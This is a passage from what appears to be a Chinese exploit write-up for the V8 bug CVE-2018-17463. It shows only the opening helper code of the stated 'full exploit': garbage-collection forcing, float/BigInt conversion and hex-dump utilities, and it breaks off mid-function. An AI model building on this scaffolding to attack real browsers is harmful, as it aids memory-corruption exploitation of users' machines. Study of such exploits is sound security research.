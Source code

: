 ## exp

完整的 exp 如下，前面的板子来自[这里](http://p4nda.top/2019/06/11/%C2%96CVE-2018-17463/)。

```plain
function gc() {
  /*fill-up the 1MB semi-space page, force V8 to scavenge NewSpace.*/
  for (var i = 0; i < ((1024 * 1024) / 0x10); i++) {
    var a = new String();
  }
}

function give_me_a_clean_newspace() {
  /*force V8 to scavenge NewSpace twice to get a clean NewSpace.*/
  gc()
  gc()
}

let floatView = new Float64Array(1);
let uint64View = new BigUint64Array(floatView.buffer);

Number.prototype.toBigInt = function toBigInt() {
  floatView[0] = this;
  return uint64View[0];
};

BigInt.prototype.toNumber = function toNumber() {
  uint64View[0] = this;
  return floatView[0];
};

function hex(b) {
  return ('0' + b.toString(16)).substr(-2);
}

// Return the hexadecimal representation of the given byte array.
function hexlify(bytes) {
  var res = [];
  for (var i = 0; i < bytes.length; i++)
    res.push(hex(bytes[i]));
  return res.join('');
}

// Return the binary data represented by the given hexdecimal string.
function unhexlify(hexstr) {
  if (hexstr.length % 2 == 1)
    throw new TypeError("Invalid hex string");
  var bytes = new Uint8Array(hexstr.length / 2);
  for (var i = 0; i < hexstr.length; i += 2)
    bytes[i / 2] = parseInt(hexstr.substr(i, 2), 16);
  return bytes;
}

function hexdump(data) {
  if (typeof data.BYTES_PER_ELEMENT !== 'undefined')
    data = Array.from(data);
  var lines = [];
  for (var i = 0; i < data.length; i += 16) {
    var chunk = data.slice(i, i + 16);
    var parts = chunk.map(hex);
    if (parts.length > 8)
      parts.splice(8, 0, ' ');
    lines.push(parts.join(' '));
  }
```